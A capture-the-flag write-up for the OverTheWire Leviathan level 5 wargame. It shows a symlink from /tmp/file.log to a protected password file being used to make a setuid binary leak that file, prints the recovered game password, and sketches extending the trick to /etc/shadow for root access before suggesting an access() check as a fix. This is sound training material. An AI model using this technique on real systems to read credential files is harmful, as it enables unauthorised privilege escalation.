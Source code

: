 ﻿---
layout: post
title: Leviathan5
categories: ctfwriteups-overthewire-org-leviathan
comments: true
---

Objective: Find the password to enter level6 **leviathan6**.

### This is how I found it:

1. In the home directory, a setuid executable **leviathan5** is present. I ran it to see what it does.

		leviathan5@leviathan:~$ ./leviathan5 
		Cannot find /tmp/file.log
		leviathan5@leviathan:~$

2. I instantly got the idea. Create a symbolic link to **/etc/leviathan_pass/leviathan6** with name **file.log** in **/tmp** directory. But wanted to confirm. So, I ran it with ltrace.

		leviathan5@leviathan:~$ ltrace ./leviathan5 
		__libc_start_main(0x56555760, 1, 0xffffd744, 0x56555840 <unfinished ...>
		fopen("/tmp/file.log", "r")                      = 0
		puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
		)                = 26
		exit(-1 <no return ...>
		+++ exited (status 255) +++
		leviathan5@leviathan:~$ 

* It is trying to open the file **/tmp/file.log** . 

3. Let us create that **symbolic link** and run **leviathan5**. 

		leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
		leviathan5@leviathan:~$ ls -l /tmp/file.log
		lrwxrwxrwx 1 leviathan5 leviathan5 30 May 31 09:20 /tmp/file.log -> /etc/leviathan_pass/leviathan6
		leviathan5@leviathan:~$ 
		leviathan5@leviathan:~$ ./leviathan5 
		UgaoFee4li
		leviathan5@leviathan:~$ 

And **GAME OVER!**

### Password for leviathan6: UgaoFee4li

-----------

**PS**:

1. The above vulnerability was a simple one to find out and exploit. But I feel it can be a very dangerous one. Consider the following scenario.

* There is an executable setuid to **root**, and just reads any file you give as input. 

* We can create symbolic links to **/etc/passwd** and **/etc/shadow**  and use that executable to read the contents. 

* The attacker can maybe bruteforce to get the password from the **hash** present in the shadow file. This will give the attacker root access.

* Even if attacker is not able to de-hash it, he can always read other sensitive information, even without any authentication.  

* How to **patch** this vulnerability: This is one method I could think about.
	
	* While coding the program / software, adding a call to **access()** will check if the **real user** has privileges to read the file or not. If **real user** does not have privileges, then the software should not display the contents of the file. 
	
	* **/etc/shadow** file can not be read by anyone except **root**. This is identified with the help of **access()** function, and vulnerability is patched.   
